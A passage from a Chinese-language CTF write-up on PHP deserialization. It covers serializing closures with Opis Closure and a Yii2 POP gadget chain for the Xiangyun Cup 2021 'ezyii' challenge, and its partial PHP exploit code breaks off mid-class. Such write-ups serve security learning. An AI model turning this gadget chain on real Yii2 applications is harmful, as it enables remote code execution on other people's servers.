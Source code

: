 可以看到通过`Closure::bind`我们还可以给闭包传入上下文对象。

一般来说Closure是不允许序列化和反序列化的，直接序列化会`Exception: Serialization of 'Closure' is not allowed`

然而[Opi Closure](https://github.com/opis/closure)库实现了这一功能,通过Opi Clousre，我们可以方便的对闭包进行序列化反序列化，只需要使用`Opis\Closure\serialize()`和`Opis\Closure\unserialize()`即可。

### <a class="reference-link" name="%E4%BB%A5%E7%A5%A5%E4%BA%91%E6%9D%AF2021%20ezyii%E4%B8%BA%E4%BE%8B"></a>以祥云杯2021 ezyii为例

在2021祥云杯比赛中有一个关于yii2的反序列化链,根据所给的文件，很容易发现一条链子

```
Runprocess-&gt;DefaultGenerator-&gt;AppendStream-&gt;CachingStream-&gt;PumpStream
```

也即

```
&lt;?php
namespace Faker`{`
    class DefaultGenerator
    `{`
        protected $default;
        public function __construct($default = null)
        `{`
            $this-&gt;default = $default;
        `}`
    `}`
`}`

namespace GuzzleHttp\Psr7`{`
    use Faker\DefaultGenerator;
    final class AppendStream`{`
        private $streams = [];
        private $seekable = true;
        public function __construct()`{`
            $this-&gt;streams[]=new CachingStream();
        `}`
    `}`
    final class CachingStream`{`
        private $remoteStream;
        public function __construct()`{`
            $this-&gt;remoteStream=new DefaultGenerator(false);
            $this-&gt;stream=new  PumpStream();
        `}`
    `}`
    final class PumpStream`{`
        private $source;
        private $size=-10;
        private $buffer;
        public function __construct()`{`
            $this-&gt;buffer=new DefaultGenerator('whatever');
            $this-&gt;source="????";
        `}`
    `}`
`}`


namespace Codeception\Extension`{`
    use Faker\DefaultGenerator;
    use GuzzleHttp\Psr7\AppendStream;
    class  RunProcess`{`
        protected $output;
        private $processes = [];
        public function __construct()`{`
```